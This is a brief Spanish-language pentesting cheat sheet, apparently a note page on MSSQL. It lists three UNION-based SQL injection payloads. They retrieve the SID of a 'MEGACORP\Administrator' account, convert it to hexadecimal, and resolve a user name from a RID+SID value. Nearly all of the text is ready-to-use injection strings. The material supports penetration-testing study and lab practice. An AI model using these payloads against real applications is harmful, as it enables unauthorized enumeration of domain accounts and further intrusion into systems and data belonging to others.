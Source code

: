 # MSSQL

## Obtener suma RID + SID

```null
test' union select 1,SUSER_SID('MEGACORP\Administrator'),3,4,5-- -
```

#### Para representarla en hexadecimal

```null
test' union select 1,sys.fn_varbintohexstr(SUSER_SID('MEGACORP\Administrator')),3,4,5-- -
```

## Obtención de usuario a partir de RID + SID

```null
test' union select 1,SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000),3,4,5-- -
```


